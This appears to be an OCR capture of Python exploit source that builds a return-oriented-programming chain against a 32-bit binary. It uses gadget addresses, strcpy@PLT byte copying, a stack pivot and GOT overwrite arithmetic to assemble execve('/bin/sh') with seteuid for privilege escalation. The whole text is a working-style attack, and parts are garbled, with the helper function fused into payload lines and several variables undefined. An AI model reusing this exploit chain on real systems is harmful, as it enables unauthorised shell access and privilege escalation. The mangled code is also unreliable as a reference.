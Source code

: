 ```py
#execve_arg1 0x804ac60
execve_arg1_oct1 = 0x8048143  #08
execve_arg1_oct2 = 0x8048130  #04 
execve_arg1_oct3 = 0x8048f44  #AC 
execve_arg1_oct4 = 0x804819a  #60
#execve_arg2 0x804ac68
execve_arg2_oct1 = 0x8048143  #08
execve_arg2_oct2 = 0x8048130  #04 
execve_arg2_oct3 = 0x8048f44  #AC 
execve_arg2_oct4 = 0x80483a6  #68
#execve_arg3 0x00000000
execve_null_arg = 0x804a360
execve_path_dst = 0x804ac60   #Custom stack location which contains execve_path "/bin/sh"
execve_path_oct1 = 0x8048154  #/
execve_path_oct2 = 0x8048157  #b
execve_path_oct3 = 0x8048156  #i
execve_path_oct4 = 0x804815e  #n
execve_path_oct5 = 0x8048162  #s
execve_path_oct6 = 0x80483a6  #h
execve_argv_dst = 0x804ac68   #Custom stack location which contains execve_argv [0x804ac60, 0x0]
execve_argv1_oct1 = 0x8048143 #08
execve_argv1_oct2 = 0x8048130 #04 
execve_argv1_oct3 = 0x8048f44 #AC 
execve_argv1_oct4 = 0x804819a #60
strcpy_plt = 0x80483d0        #strcpy@PLT
ppr_addr = 0x080485ce         #popl %edi ; popl %ebp ; ret ;

#Stack Pivot
pr_addr = 0x080484a3          #popl %ebp ; ret ;
lr_addr = 0x08048569          #leave ; ret ;

#endianess convertion
def conv(num):
 return struct.pack("<I",num* 268 #Junk
buf += conv(g7)               #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6)               #pop esi; pop edi; pop ebp; ret;
buf += conv(esi)              #esi
buf += conv(edi)              #edi
buf += conv(dummy)
buf += conv(g5)               #pop ebx; ret;
buf += conv(ebx)              #ebx
buf += conv(g4)               #mov 0x34(%esp),%eax; ...

for num in range(0,11):
 buf += conv(dummy)

buf += conv(g2)               #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40              #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1)               #addl %eax, 0x5D5B04C4(%ebx); ret;
#Custom Stack
#Below stack frames are for strcpy (to copy seteuid@PLT to custom stack)
cust_esp += 4                 #Increment by 4 to get past Dummy EBP.
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
```